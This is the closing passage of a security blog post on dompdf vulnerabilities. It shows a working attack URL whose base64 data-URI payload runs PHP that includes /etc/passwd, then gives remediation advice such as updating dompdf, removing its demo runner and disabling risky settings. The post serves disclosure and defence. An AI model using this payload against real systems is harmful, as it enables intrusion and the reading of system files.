 And the final attack is:

{% highlight html %}
http://<target>/<path>/dompdf/dompdf.php?base_path=&options[Attachment]=0&input_file=data%3Aapplication%2Fx-httpd-php%3Bcharset%3Dutf-8%3Bbase64%2CPD9waHANCmluY2x1ZGUgKCcvZXRjL3Bhc3N3ZCcpOw0KZWNobyAiYnllIjsNCj8%2B
{% endhighlight %}

If default settings for `DOMPDF_ENABLE_PHP` and `DOMPDF_ENABLE_REMOTE` are
altered (to true) this attack will successfully run the PHP script and render
the output of this script to a PDF document (which is in fact only an optionnal side-effect).
This Can be used for local or remote
file inclusion, but also to edit or create a php file, run a shell script, etc.
Chances are this exploit would be used to connect your server in a botnet.

## Last words

 * Avoid using `eval()` in your web code
 * Avoid adding demonstrations to your libraries, or ensure that they will not
  run in production
 * Update your dompdf installation. Version 0.7 is a revolution, it may be hard
  to switch to that version, but moving an old 0.6.0 or 0.6.1 version to 0.6.2
  should be straightforward, if it breaks something revert the code and check next
  point.
 * if you use dompdf in a cms, you can safely **remove the `www` subdirectory
 and the `dompdf.php` file** in that library, rename it first if you do not
 believe me, the CMS is quite certainly using the library classes, and not the
 demonstration code and runner.
 * if you enabled the two dangerous settings, then revert it even if it breaks
 something (choose between breaking a features and giving your server to spammers)
 * if you use a modern PHP application, please put PHP libraries outside of the
 web document root.

  [FRENCH]: http://www.makina-corpus.com/blog/metier/2016/securite-web-detail-de-failles-de-securite-dompdf
  [DOMPDF]: https://github.com/dompdf/dompdf
  [CVE2014]: https://www.portcullis-security.com/security-research-and-downloads/security-advisories/cve-2014-2383/
  [CVE1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-5011
  [CVE2]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-5012
  [CVE3]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-5013
  [RELEASES]: https://github.com/dompdf/dompdf/releases
  [DATAURI]: https://developer.mozilla.org/fr/docs/Web/HTTP/Basics_of_HTTP/Data_URIs